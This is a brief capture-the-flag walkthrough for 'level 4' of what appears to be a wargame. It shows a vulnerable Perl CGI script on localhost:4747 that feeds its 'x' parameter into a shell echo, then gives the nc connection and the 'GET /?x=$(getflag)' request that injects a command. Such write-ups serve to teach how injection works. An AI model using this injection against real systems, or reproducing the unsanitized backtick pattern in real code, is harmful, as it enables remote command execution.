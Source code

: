 ## Walkthrough :
- This level 4 contain a perl script : 
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print \`echo $y 2>&1\`;
}
x(param("x"));
```
- this program shows that a webserver is listening on localhost:4747 and expecting a x param, which will be passed to a sub routine.
```
print \`echo $y 2>&1\`;
```
- this line allows the output of **echo $y to be passed to the function print**.
- we only need to pass our exploit *$(getflag)* to echo, this will runs as a sub command .
    - connect using
    ```
    nc localhost 4747
    ```
    - send get request with command as parameter
    ```
    - GET /?x=$(getflag)
    ```


## Ressources
- [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)